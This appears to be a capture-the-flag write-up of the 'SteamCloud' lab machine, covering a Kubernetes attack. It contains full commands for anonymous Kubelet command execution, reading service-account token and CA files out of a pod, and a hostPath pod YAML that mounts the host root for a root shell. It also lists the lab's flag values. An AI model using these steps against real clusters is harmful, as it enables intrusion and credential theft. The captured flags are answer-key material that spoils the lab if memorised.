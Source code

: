 # Given

SteamCloud is an easy difficulty machine. The port scan reveals that it has a bunch of Kubernetes specific ports open. We cannot not enumerate the Kubernetes API because it requires authentication. Now, as Kubelet allows anonymous access, we can extract a list of all the pods from the K8s cluster by enumerating the Kubelet service. Furthermore, we can get into one of the pods and obtain the keys necessary to authenticate into the Kubernetes API. We can now create and spawn a malicious pod and then use Kubectl to run commands within the pod to read the root flag.

## ip/scope:

# Steps

## Enumeration

Started with an nmap scan of all ports, `nmap -sCV -p- -T3 -oN enum/nmap.out` which showed several open ports

```bash
22/tcp    open  ssh  OpenSSH 7.9p1 Debian 10+deb10u2 (protocol2.0)
2379/tcp  open  ssl/etcd-client?                                             2380/tcp  open  ssl/etcd-server?
8443/tcp  open  ssl/http Golang net/http server
10249/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10256/tcp open  http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

Googling the ports 2379, 2380 led me to finding out that they're from the Kubernetes service. 

![](Assets/Pasted%20image%2020250620111842.png)

Checking Hacktricks for Kubernetes, and Kubelet API pentesting showed me how to interact with the Kubelet API. Managed to get some api endpoints which I should be able to normally.

```bash
curl -s https://raw.githubusercontent.com/kubernetes/kubernetes/master/pkg/kubelet/server/server.go | grep 'Path("/'


Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

## Exploiting RCE

 `/run` and `/exec` allow us to run code remotely on the containers. An example of `RCE`. 

 

The `kubeletctl` and `kubectl` binaries for interacting with the kubernetes api, and containers. 

- Run `kubeletctl pods--server 10.10.11.13` to get a list of the pods running on the server.
- We can also use this tool to scan for pods with the RCE vulnerability using `kubeletctl scan rce --server 10.10.11.133`

This shows us that the `nginx` pod is vulnerable to RCE. We can use `kubeletctl exec "id" --server 10.10.11.133 -p nginx -c nginx` to test the RCE.

![](Assets/Pasted%20image%2020250620143019.png)

## Initial Foothold

This means we could get the kubernetes server to open a bash shell for us to interact with it. Run `kubeletctl exec "/bin/sh" -s 10.10.11.13 -p nginx -c nginx`

![](Assets/Pasted%20image%2020250620143223.png)

### Items to Steal

`token` and `ca/crt` are two files that are located at `/var/run/secrets/kubernetes.io/serviceaccount/`. ==When a pod is created, Kubernetes automatically creates a service account for the pod, and assigns it to the pod by default. The files in the directory are used to authenticate and interact with the Kubernetes API server.==

Use `kubeletctl` to view them, and copy them to our attacking machine.

```bash
kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/ca.crt

kubeletctl run "cat /var/run/secrets/kubernetes.io/serviceaccount/token" --namespace default --pod nginx --container nginx --server 10.10.11.133 > findings/token
```

## Privilege Escalation

The idea here is that the kubernetes pods are running on a Linux Machine, and we want to essentially break out of the pod, and into the machine's file system.

We can go about doing this by mounting the machine's file system to a kubernetes pod we create using `kubectl`, the `ca.crt` and `token` files.

In order to create a pod, we'll also need a YAML file describing the pod in question.

```yaml
apiVersion: v1 
kind: Pod
metadata:
  name: 0ni-pod
  namespace: default
spec:
  containers:
  - name: 0ni-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

### Add Token to Env Variables

```bash
export token=$(cat findings/token)
```

### Create Pod

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f oni.yaml
```

The YAML file specifies a mounted drive called `hostfs`, which has a path of `/` meaning it will map the host machine's root directory.

We can check if this worked by using `kubeletctl` to list the pods running on the server.

![](Assets/Pasted%20image%2020250620145547.png)

And now we can connect to our pod by issuing the following command

`kubeletctl exec '/bin/sh' --server 10.10.11.133 -p 0ni-pod -c 0ni-pod`

and we have a root shell.

# Findings

1. Ports:
	1. Kubernetes: 2379, 2380
	2. Kubelet API: 10250
	3. Kube Proxy: 10256
	4. Http/s: 10249, 8443
	5. SSH: 22
2. Exposed Kubelet api endpoints

```bash
Path("/run")
Path("/exec")
Path("/attach")
Path("/portForward")
Path("/containerLogs")
```

3. CA cert and Token files at:
	1. /var/run/secrets/kubernetes.io/serviceaccount/token
	2. /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# Creds

- ca.crt file
- token file

# Flags

- User: a27d02d84fde582089d2f05e0bb41041
- Root: 3d282f17d9a882f36b8d10c503fec6a9

# Proof

![](Assets/Pasted%20image%2020250620131859.png)

![](Assets/Pasted%20image%2020250620140707.png)
